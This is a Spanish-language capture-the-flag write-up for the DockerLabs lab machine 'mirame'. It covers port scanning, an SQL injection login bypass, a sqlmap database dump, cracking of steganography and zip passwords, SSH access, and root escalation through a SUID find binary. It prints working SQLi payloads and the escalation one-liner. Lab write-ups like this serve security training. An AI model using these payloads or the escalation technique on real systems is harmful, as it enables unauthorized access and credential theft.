




**Plataforma:** Dockerlabs\
**Sistema Operativo:** Linux

> **Tags:** `Linux` `Web` `SQLi` `SQLMap` `Steganography` `John` `SUID` `Information Leakage`

## INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash
unzip mirame.zip
```

La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh mirame.tar
```

Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

## ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
```

```bash
nmap -n -Pn -sCV -p22,80 --min-rate 5000 172.17.0.2
```

Info:

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-16 14:56 +0100
Nmap scan report for 172.17.0.2
Host is up (0.000027s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 2c:ea:4a:d7:b4:c3:d4:e2:65:29:6c:12:c4:58:c9:49 (ECDSA)
|_  256 a7:a4:a4:2e:3b:c6:0a:e4:ec:bd:46:84:68:02:5d:30 (ED25519)
80/tcp open  http    Apache httpd 2.4.61 ((Debian))
|_http-server-header: Apache/2.4.61 (Debian)
|_http-title: Login Page
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.94 seconds
```

Identificamos los puertos `22` (SSH) y `80` (HTTP) abiertos.

Accedemos al servicio web del puerto `80` y encontramos un `panel de login`.



Probamos a realizar una `inyección SQL` manual con los siguientes payloads:

```
Username: ' OR 1=1;-- -
Password: ' OR 1=1;-- -
```

La inyección funciona correctamente y logramos acceder.



# SQLMAP

Confirmada la vulnerabilidad, decidimos utilizar `SQLMap` para volcar la base de datos. 

Primero, interceptamos la `request` de login con `BurpSuite`.



Guardamos la petición en un archivo llamado `request.txt` y procedemos a enumerar las `bases de datos`.

```Bash
sqlmap -r request.txt --batch --dbs
```

Info:
```
       ___
       __H__
 ___ ___[,]_____ ___ ___  {1.9.12#stable}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

---------------------------------------------------<MORE_OUTPUT>-----------------------------------------------------------------------------

[15:04:51] [INFO] target URL appears to have 3 columns in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] N
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[15:04:51] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
[15:04:51] [INFO] testing 'MySQL UNION query (random number) - 1 to 20 columns'
[15:04:51] [INFO] testing 'MySQL UNION query (NULL) - 21 to 40 columns'
[15:04:51] [INFO] testing 'MySQL UNION query (random number) - 21 to 40 columns'
[15:04:51] [INFO] testing 'MySQL UNION query (NULL) - 41 to 60 columns'
[15:04:51] [INFO] testing 'MySQL UNION query (random number) - 41 to 60 columns'
[15:04:51] [INFO] testing 'MySQL UNION query (NULL) - 61 to 80 columns'
[15:04:51] [INFO] testing 'MySQL UNION query (random number) - 61 to 80 columns'
[15:04:51] [INFO] testing 'MySQL UNION query (NULL) - 81 to 100 columns'
[15:04:51] [INFO] testing 'MySQL UNION query (random number) - 81 to 100 columns'
[15:04:51] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 364 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: username=admin%' OR NOT 7054=7054#&password=admin

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: username=admin%' AND EXTRACTVALUE(7397,CONCAT(0x5c,0x716b717171,(SELECT (ELT(7397=7397,1))),0x7178717071)) AND 'CbeS%'='CbeS&password=admin

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin%' AND (SELECT 6489 FROM (SELECT(SLEEP(5)))WtSN) AND 'VYJK%'='VYJK&password=admin
---
[15:04:51] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.61
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[15:04:51] [INFO] fetching database names
[15:04:51] [INFO] retrieved: 'information_schema'
[15:04:51] [INFO] retrieved: 'users'
available databases [2]:
[*] information_schema
[*] users

[15:04:51] [INFO] fetched data logged to text files under '/home/trihack/.local/share/sqlmap/output/172.17.0.2'

[*] ending @ 15:04:51 /2026-02-16/
```

Identificamos las bases de datos `information_schema` y `users`. Procedemos a enumerar las `tables` de `users`.

```Bash
sqlmap -r request.txt --batch -D users --tables
```

Info:
```
---------------------------------------------------<MORE_OUTPUT>-------------------------------------------------------------
[15:06:41] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.61
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[15:06:41] [INFO] fetching tables for database: 'users'
[15:06:41] [INFO] retrieved: 'usuarios'
Database: users
[1 table]
+----------+
| usuarios |
+----------+

[15:06:41] [INFO] fetched data logged to text files under '/home/trihack/.local/share/sqlmap/output/172.17.0.2'

[*] ending @ 15:06:41 /2026-02-16/
```

Encontramos una table llamada `usuarios`. Volcamos su contenido.

```Bash
sqlmap -r request.txt --batch -D users -T usuarios --dump
```

Info:
```
       ___
       __H__
 ___ ___[(]_____ ___ ___  {1.9.12#stable}
|_ -| . [(]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[*] starting @ 15:07:57 /2026-02-16/

[15:07:57] [INFO] parsing HTTP request from 'request.txt'
[15:07:57] [INFO] resuming back-end DBMS 'mysql' 
[15:07:57] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: username=admin%' OR NOT 7054=7054#&password=admin

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: username=admin%' AND EXTRACTVALUE(7397,CONCAT(0x5c,0x716b717171,(SELECT (ELT(7397=7397,1))),0x7178717071)) AND 'CbeS%'='CbeS&password=admin

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin%' AND (SELECT 6489 FROM (SELECT(SLEEP(5)))WtSN) AND 'VYJK%'='VYJK&password=admin
---
[15:07:58] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.61
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[15:07:58] [INFO] fetching columns for table 'usuarios' in database 'users'
[15:07:58] [INFO] retrieved: 'id'
[15:07:58] [INFO] retrieved: 'int(11)'
[15:07:58] [INFO] retrieved: 'username'
[15:07:58] [INFO] retrieved: 'varchar(50)'
[15:07:58] [INFO] retrieved: 'password'
[15:07:58] [INFO] retrieved: 'varchar(255)'
[15:07:58] [INFO] fetching entries for table 'usuarios' in database 'users'
[15:07:58] [INFO] retrieved: '1'
[15:07:58] [INFO] retrieved: 'chocolateadministrador'
[15:07:58] [INFO] retrieved: 'admin'
[15:07:58] [INFO] retrieved: '2'
[15:07:58] [INFO] retrieved: 'lucas'
[15:07:58] [INFO] retrieved: 'lucas'
[15:07:58] [INFO] retrieved: '3'
[15:07:58] [INFO] retrieved: 'soyagustin123'
[15:07:58] [INFO] retrieved: 'agustin'
[15:07:58] [INFO] retrieved: '4'
[15:07:58] [INFO] retrieved: 'directoriotravieso'
[15:07:58] [INFO] retrieved: 'directorio'
Database: users
Table: usuarios
[4 entries]
+----+------------------------+------------+
| id | password               | username   |
+----+------------------------+------------+
| 1  | chocolateadministrador | admin      |
| 2  | lucas                  | lucas      |
| 3  | soyagustin123          | agustin    |
| 4  | directoriotravieso     | directorio |
+----+------------------------+------------+

[15:07:58] [INFO] table 'users.usuarios' dumped to CSV file '/home/trihack/.local/share/sqlmap/output/172.17.0.2/dump/users/usuarios.csv'
[15:07:58] [INFO] fetched data logged to text files under '/home/trihack/.local/share/sqlmap/output/172.17.0.2'

[*] ending @ 15:07:58 /2026-02-16/
```

Encontramos varios usuarios, pero nos llama especialmente la atención el usuario `directorio` con la contraseña `directoriotravieso`. 

Esto parece indicarnos un directorio oculto en el servicio web.

Navegamos a la ruta `/directoriotravieso`. Dentro hay una imagen llamada `miramebien.jpg`. 



Esto sugiere `esteganografía`, así que la descargamos a nuestra máquina atacante.

# ESTEGANOGRAFÍA

Intentamos extraer información oculta con `steghide`, pero nos solicita una contraseña.

```Bash
steghide extract -sf miramebien.jpg
```

Utilizamos `stegseek` para crackear la contraseña utilizando el diccionario `rockyou.txt`.

```Bash
stegseek miramebien.jpg /usr/share/wordlists/rockyou.txt
```

Info:
``` 
[i] Found passphrase: "chocolate"
[i] Original filename: "ocultito.zip".
[i] Extracting to "miramebien.jpg.out".
```

Obtenemos la contraseña `chocolate`. Procedemos a extraer el contenido con `steghide`.

```Bash
steghide extract -sf miramebien.jpg
```

```
Enter passphrase: chocolate
wrote extracted data to "ocultito.zip".
```

Obtenemos un archivo comprimido llamado `ocultito.zip`. Intentamos descomprimirlo, pero de nuevo nos pide contraseña.

Utilizamos `zip2john` para obtener el `hash` del archivo `.zip`.

```Bash
zip2john ocultito.zip > hash.txt
```

A continuación, utilizamos `John The Ripper` para crackear el `hash`.

```Bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Info:
``` 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
stupid1          (ocultito.zip/secret.txt)     
1g 0:00:00:00 DONE (2026-02-16 15:15) 50.00g/s 204800p/s 204800c/s 204800C/s 123456..oooooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

La contraseña del archivo comprimido es `stupid1`. Descomprimimos el archivo.

```Bash
unzip ocultito.zip
```

```
Archive:  ocultito.zip
secret.txt password: stupid1
 extracting: secret.txt
```

Leemos el contenido del archivo `secret.txt`.

```Bash
cat secret.txt
```
```
carlos:carlitos
```

Conseguimos unas credenciales que parecen ser de un usuario del sistema: `carlos` : `carlitos`.

Intentamos acceder vía `SSH`.

```Bash
ssh carlos@172.17.0.2
```

# ESCALADA DE PRIVILEGIOS

Una vez dentro, comprobamos permisos `sudo` y `SUID`.

```Bash
find / -perm -4000 -type f 2>/dev/null
```

Info:
```
/usr/bin/umount
/usr/bin/chsh
/usr/bin/su
/usr/bin/mount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/find
/usr/bin/newgrp
/usr/bin/sudo
/usr/lib/mysql/plugin/auth_pam_tool_dir/auth_pam_tool
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Observamos que el binario `/usr/bin/find` tiene permisos `SUID`.

Consultamos `GTFOBins` y aprovechamos este permiso para escalar privilegios ejecutando comandos como `root`.

```Bash
/usr/bin/find . -exec /bin/bash -p \; -quit
```

```
bash-5.2# whoami
root
bash-5.2#
```

Ya somos root!
